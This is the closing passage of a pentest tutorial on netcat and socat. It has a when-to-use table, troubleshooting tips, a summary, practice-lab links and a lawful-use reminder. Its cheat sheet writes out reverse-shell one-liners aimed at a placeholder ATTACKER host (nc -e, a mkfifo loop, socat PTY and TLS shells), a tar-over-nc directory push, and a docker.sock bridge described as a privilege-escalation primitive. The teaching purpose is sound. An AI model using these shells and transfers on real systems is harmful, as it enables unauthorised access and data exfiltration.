- **UDP "scan" false confidence.** `nc -zu` reports success on send, not on a listener existing. Use nmap `-sU` for real UDP scanning.
- **Leaving relays and `/tmp` binaries behind.** Kill background socats and remove uploaded binaries; document them.
- **Debugging blind.** When a socat command "does nothing," add `-d -d -v` to see connection events and traffic.

---

## Part 14.5: netcat vs socat — When To Use Which

| Need | Reach for | Why |
|------|-----------|-----|
| Quick shell catcher | `nc` | already installed, one flag |
| Fully-interactive shell now | `socat` PTY | no stty ritual, real PTY |
| Encrypted channel | `socat OPENSSL` / `ncat --ssl` | TLS built in |
| One-off file transfer | `nc` | trivial `> f` / `< f` |
| Multi-connection port forward | `socat ...,fork` | netcat relay is single-shot |
| Nothing installed on target | `bash /dev/tcp`, python, awk | reconstruct the socket yourself |
| Windows target | PowerCat / ConPtyShell / TCPClient | no nc; native or in-memory |
| Locked-down listener (ACL) | `ncat --allow` | restrict to your source IP |

The decision tree in one line: **netcat for speed and ubiquity, socat for power and interactivity, and the raw interpreter when neither is present.**

### Memory hooks

- **"Three netcats, one may lack `-e`."** Check the build before pasting `-e`.
- **"No `-e`? FIFO."** `mkfifo` loop works everywhere.
- **"socat = ADDR1 ADDR2."** Everything is an address; `fork` keeps it alive.
- **"pty,stderr,setsid,sigint,sane"** — the socat shell incantation.
- **"Verify or it didn't transfer."** Always `sha256sum` both ends.

### Field troubleshooting FAQ

| Symptom | Likely cause | Fix |
|---------|--------------|-----|
| `nc: invalid option -- 'e'` | OpenBSD build, no `-e` | use `mkfifo` loop or ncat |
| File arrives truncated | socket didn't close on EOF | add `-w 3` / `-N` on sender |
| socat forward works once, then dead | missing `,fork` | add `fork` to the LISTEN address |
| socat "does nothing" | wrong arch binary or inner refused | `file` the binary; `-d -d -v` |
| TLS shell errors on cert | client verifying cert | add `verify=0` (lab) |
| Windows: `nc.exe` flagged/deleted | AV signature | use PowerCat / ConPtyShell / TCPClient |
| Bytes arrive garbled | mixing UDP and TCP ends | match `-u` on both sides |

### A few more socat patterns worth knowing

```bash
# expose your local Kali service to a target that must reach back in
socat TCP-LISTEN:8000,reuseaddr,fork TCP:127.0.0.1:8000
# make a serial device network-accessible (IoT/embedded testing)
socat TCP-LISTEN:5000,reuseaddr,fork FILE:/dev/ttyUSB0,b115200,raw
# quick HTTP responder that returns a fixed string (webhook testing)
socat TCP-LISTEN:8080,reuseaddr,fork SYSTEM:'echo HTTP/1.0 200 OK; echo; echo hi'
# unix socket <-> TCP bridge (reach a container's unix socket)
socat TCP-LISTEN:2375,reuseaddr,fork UNIX-CONNECT:/var/run/docker.sock
```

That last one — bridging the Docker unix socket to TCP — is a genuine privilege-escalation primitive when a low-priv user can read `docker.sock`; it foreshadows container-escape material in the privilege-escalation notebook.

---

## Part 15: Final Revision / Summary

- Netcat and socat both move bytes between a source and a sink; socat generalises this to *any two addresses* and adds TLS, PTYs, and forking.
- There are three netcats — **traditional** (`-e`), **OpenBSD** (Kali default, no `-e`), and **Ncat** (TLS, ACLs). Know which you're on before pasting a cheat-sheet command.
- Core netcat jobs: catch/throw shells, transfer files (`nc -lvnp P > f` / `nc host P < f`, always with `-w`/checksum), scan (`-zvn -w1`), grab banners, chat, and crude relays.
- The `mkfifo` loop gives a bind/reverse shell with **no `-e`** — works on every netcat.
- socat address model: `socat [opts] ADDR1 ADDR2`, where an address is `TCP:`, `TCP-LISTEN:`, `EXEC:`, `PTY`, `OPENSSL:`, `FILE:`, etc.
- socat's killer features: **fully-interactive PTY shells** (`pty,stderr,setsid,sigint,sane`) with no stty ritual, **encrypted shells** (`OPENSSL-LISTEN`/`OPENSSL`), and **forking port forwards** (`TCP-LISTEN:...,fork TCP:target`).
- Blue teams catch both via egress filtering, protocol-vs-port anomalies, TLS inspection, command-line auditing (`nc -e`, `mkfifo`, `socat EXEC`), and new-`/tmp`-binary alerts.
- Netcat also doubles as a hand-operated protocol debugger — VRFY on SMTP, INFO on Redis, raw HTTP — which is how findings get *confirmed* before they get scripted.
- When neither tool exists, rebuild the socket from the interpreter you have: `bash /dev/tcp`, python, perl, ruby, or awk. The tool is a convenience; the socket is the fundamental.

---

## Part 16: Cheat Sheet / Quick Reference

```text
# NETCAT — LISTEN / CONNECT
nc -lvnp 4444                         # listen (OpenBSD/traditional)
nc -vn HOST PORT                      # connect
nc -lvnkp 4444                        # keep listening across disconnects

# NETCAT — SHELLS
nc -e /bin/sh ATTACKER 443            # reverse (traditional/ncat only)
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER 443>/tmp/f
nc -lvnp 4444 -e /bin/sh              # bind (traditional/ncat only)

# NETCAT — FILE TRANSFER (add -w / verify)
nc -lvnp 4444 > out.bin               # receiver
nc -w 3 ATTACKER 4444 < in.bin        # sender
tar czf - dir | nc -w3 ATTACKER 4444  # dir push
nc -lvnp 4444 | tar xzvf -            # dir receive

# NETCAT — SCAN / BANNER
nc -zvn -w1 HOST 20-1000
printf 'HEAD / HTTP/1.0\r\n\r\n' | nc -vn HOST 80

# NCAT — TLS
ncat -lvnp 443 --ssl                  # attacker
ncat --ssl HOST 443 -e /bin/bash      # target

# SOCAT — INTERACTIVE PTY SHELL
socat -d -d TCP-LISTEN:443,reuseaddr,fork FILE:`tty`,raw,echo=0     # attacker
socat TCP:ATTACKER:443 EXEC:'bash -li',pty,stderr,setsid,sigint,sane # target

# SOCAT — ENCRYPTED SHELL
socat OPENSSL-LISTEN:443,cert=s.pem,verify=0,reuseaddr,fork FILE:`tty`,raw,echo=0
socat OPENSSL:ATTACKER:443,verify=0 EXEC:'bash -li',pty,stderr,setsid,sigint,sane

# SOCAT — PORT FORWARD / RELAY
socat TCP-LISTEN:8080,reuseaddr,fork TCP:INTERNAL:80

# SOCAT — FILE
socat -u TCP-LISTEN:4444,reuseaddr OPEN:out.bin,creat   # receive
```

---

## Part 17: Practice Labs & Resources

- **TryHackMe — "What the Shell?"** and **"Networking Tools"** — reinforce netcat shells, file transfer, and socat PTY upgrades hands-on.
- **HackTheBox Academy — "Pivoting, Tunneling, and Port Forwarding"** — the definitive module for socat relays alongside chisel/ligolo.
- **TryHackMe — "Wreath"** — a network with a pivot host; forces you to relay and forward through a compromised machine to reach the rest.
- **OverTheWire — Bandit (netcat levels)** — several levels require `nc` to talk to a service or receive a file; excellent muscle memory.
- **picoCTF — "netcat" and "network" categories** — many challenges hand you a `nc host port` and expect you to interact with a raw service directly.
- **PentestMonkey / PayloadsAllTheThings — netcat & socat cheat sheets** — keep both open until the syntax is reflex.
- **HackTheBox — dual-homed boxes** (any box with an internal-only second host) — practise the socat `fork` forward for real.
- **socat manpage + the "socat cheatsheet" (PayloadsAllTheThings / Ir0nstone's notes)** — the address syntax rewards a slow read; keep it open until it's memorised.
- **static-binaries collection** — carry a static `socat` and `nc` per architecture so a missing binary never stops you.
- **PortSwigger / Ir0nstone "Tunnelling & Port Forwarding" notes** — read alongside the socat section to see where chisel/ligolo take over for multi-hop.
- **VulnHub dual-NIC boxes** — practise standing up relays offline with no VPN dependency.

### Lawful-use reminder

Every relay, tunnel, and shell in this chapter touches a live network. Forwarding traffic through a client host, moving files off a system, or standing up a listener are all actions that require explicit, written, in-scope authorisation. A `socat` forward into a subnet you were not given is unauthorised access regardless of intent; treat scope boundaries as hard limits and clean up every artifact (uploaded binaries, background relays, temp files) before you leave.

### Self-check before moving on

You should now be able, from memory, to: catch a shell with `nc`; give a shell with the `mkfifo` loop; push and pull a file with `nc` and verify it; scan a port range and grab a banner; stand up a fully-interactive socat PTY shell; wrap that shell in TLS; and forward a port through a pivot with `socat ...,fork`. If any of those is shaky, redo the corresponding part before the privilege-escalation notebook, because every chapter that follows assumes you can move bytes and hold a stable shell without thinking about it.

Master these two tools and you will notice how often "I need a heavier tool" was really "I forgot netcat could do this."

In the next notebook we shift from *getting and keeping a shell* to *what to do with it*: the Privilege Escalation series opens with post-exploitation methodology and situational awareness — the disciplined enumeration that turns a low-privilege foothold into root or SYSTEM.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/pentest-exploitation/08-netcat-and-socat-the-swiss-army-knives-of-shells), with comments and the latest edits.*
